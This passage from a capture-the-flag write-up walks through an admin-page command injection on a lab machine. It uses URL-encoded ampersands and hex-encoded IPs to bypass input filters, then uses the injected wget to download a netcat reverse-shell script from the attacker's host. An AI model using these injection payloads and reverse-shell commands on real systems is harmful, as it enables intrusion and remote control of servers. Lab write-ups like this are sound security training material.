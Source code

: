 - There is a hidden function: _/admin/approve_
- We got a cookie: _connect.sid&#x3D;s%3Ae84d7b00-29b6-11ea-ac69-430b6dad86bc.qNvlTwak%2F94Gl08D%2FHAIl2VHQJR7Ou2X7BzovmxNt8M_.

When putting this cookie into the browser, it unlocks a hidden feature in the Booking Management tool:

![Bookings page Admin](https://kyuu-ji.github.io/htb-write-up/swagshop/holiday_web-admin-1.png)

### Exploiting the Admin page

After adding another note, it shows a button to _Approve_ it and those awaiting approvals can be found in the _/admin_ path.

![Bookings page export](https://kyuu-ji.github.io/htb-write-up/swagshop/holiday_web-admin-2.png)

This means we have some export function from the server. Lets send this to **Burpsuite** to see the header and exploit it:
```markdown
GET /admin/export?table=notes HTTP/1.1
```

Trying simple code execution methods:
```markdown
GET /admin/export?table=notes;whoami HTTP/1.1
```

The web server tells, that _only characters in the range of [a-z0-9&\s\/] are allowed_ so the semicolon is forbidden. If we use an _URL-encoded ampersand (%26)_, then the filter gets bypassed:
```markdown
GET /admin/export?table=notes%26whoami HTTP/1.1
```

This displays the name of the user thus we got code execution to start a reverse shell.

#### Starting a reverse shell

As most commands to start a reverse shell have characters that are filtered on this server, a way to encode those characters is needed. An IP address for example has dots which are not allowed.

IP addresses can be decoded into hexadecimal and are still valid.
The hex string for my IP address **10.10.14.22** is **0xA0A0E16**. To test if this works, we can just ping this and get a response:
```markdown
ping 0xA0A0E16
```

So instead of starting a reverse shell, we tell the server to download a file with the reverse shell code _shell_ from our box.
Reverse shell in file _shell_:
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 9001 >/tmp/f
```

Download the file:
```markdown
GET /admin/export?table=notes%26wget+0xa0a0e16/shell HTTP/1.1
```
